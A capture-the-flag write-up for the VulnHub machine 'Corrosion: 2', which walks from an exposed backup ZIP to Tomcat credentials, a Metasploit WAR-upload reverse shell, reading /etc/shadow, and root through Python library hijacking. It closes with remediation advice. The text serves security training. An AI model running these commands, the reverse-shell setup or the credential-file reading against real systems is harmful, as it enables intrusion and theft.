


# Corrosion: 2 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.186 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | root flag |
| **Source** | [HackingArticles](https://www.hackingarticles.in/corrosion-2-vulnhub-walkthrough/) |

## Attack Summary

Corrosion: 2 is a medium-difficulty VulnHub machine. The attack chain begins with discovering a password-protected ZIP archive on an Apache Tomcat instance. Cracking the archive reveals Tomcat admin credentials. Tomcat manager upload access is abused to deploy a malicious WAR file and obtain a shell. Privilege escalation is achieved through Python library hijacking by abusing a writable standard-library module imported by a sudo-permitted script.

## Methodology

1. Network discovery and nmap version scan
2. Web directory brute-force on port 8080 to find the backup archive
3. ZIP password cracking with fcrackzip and rockyou
4. Extraction of Tomcat credentials from tomcat-users.xml
5. Metasploit WAR upload exploit for Tomcat Manager to obtain a Meterpreter shell
6. Password reuse from Tomcat credentials to pivot to user jaye
7. Abusing `look` capability to read `/etc/shadow` and crack randy's hash with john
8. SSH as randy and Python library hijacking via a writable base64 module for root

## Step 1: Network Scanning

```bash
netdiscover -r 192.168.1.0/24
nmap -sV 192.168.1.186
```

Open ports discovered:
- **22/tcp** — SSH (OpenSSH)
- **80/tcp** — HTTP (Apache) — default page, nothing notable
- **8080/tcp** — HTTP (Apache Tomcat)


## Step 2: Web Enumeration on Port 8080

Port 8080 served a default Tomcat page. Run dirb to find hidden paths:

```bash
dirb http://192.168.1.186:8080/ -X .php,.zip
```

Found: `backup.zip`

Download the archive:

```bash
wget http://192.168.1.186:8080/backup.zip
```

The archive is password-protected.


## Step 3: Cracking the ZIP Archive

```bash
fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u backup.zip
```

Password found: **@administrator_hi5**

Extract the archive:

```bash
unzip backup.zip
# Password: @administrator_hi5
```

The archive contains `tomcat-users.xml`, which reveals:
- **Username:** `admin`
- **Password:** `melehifokivai`



## Step 4: Tomcat Manager WAR Upload (Initial Foothold)

Use Metasploit to exploit Tomcat Manager authenticated WAR upload:

```bash
msfconsole
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS 192.168.1.186
set RPORT 8080
set HttpUsername admin
set HttpPassword melehifokivai
set LHOST <your-attacker-ip>
run
```

A Meterpreter session opens as the Tomcat service account.


## Step 5: Lateral Movement to User Jaye

Drop to a system shell from Meterpreter:

```bash
shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

List home directories:

```bash
ls /home
# jaye  randy
```

Jaye reused the Tomcat password:

```bash
su jaye
# Password: melehifokivai
id
```

## Step 6: Reading /etc/shadow via `look` Capability

The `look` binary in Jaye's home directory has elevated read capability set, allowing it to read arbitrary files:

```bash
./look '' /etc/shadow
```

Copy randy's hash to a file on the attacker machine, then crack it:

```bash
# On attacker:
john --wordlist=/usr/share/wordlists/rockyou.txt randy.hash
```

Randy's password: **07051986randy**



## Step 7: Privilege Escalation via Python Library Hijacking

SSH in as randy:

```bash
ssh randy@192.168.1.186
# Password: 07051986randy
```

Check sudo permissions:

```bash
sudo -l
# (root) NOPASSWD: /usr/bin/python3.8 /home/randy/randombase64.py
```

The script imports the `base64` module. Locate the module:

```bash
locate base64
ls -la /usr/lib/python3.8/base64.py
```

The file is writable. Add a shell spawn at the top of the module using nano:

```python
import os
os.system("/bin/bash")
```

Then trigger the sudo command:

```bash
sudo /usr/bin/python3.8 /home/randy/randombase64.py
id
# uid=0(root)
cat /root/root.txt
```

## Lessons Learned

- Backup archives exposed on web servers can contain sensitive configuration files; they should never be publicly accessible.
- Tomcat Manager should not be accessible from untrusted networks; authenticated upload functionality can be abused for RCE.
- Python library hijacking is possible when a script runs with elevated privileges and imports from a writable location; restrict write access to system Python libraries.
- Password reuse across services multiplies the blast radius of a single credential disclosure.

## Remediation

| Vulnerability | Fix |
|---|---|
| Backup archive exposed on web server | Remove sensitive archives from web-accessible directories; use access controls |
| Weak ZIP password | Use strong, unique passwords for all archives containing credentials |
| Tomcat Manager accessible publicly | Restrict Tomcat Manager to localhost or trusted IPs via `RemoteAddrValve` |
| Password reuse | Enforce unique passwords per service; use a secrets manager |
| Writable Python standard library | Set correct ownership and permissions on `/usr/lib/python*` |
| Sudo with Python interpreter | Avoid granting sudo to script interpreters; use wrapper binaries with fixed arguments |
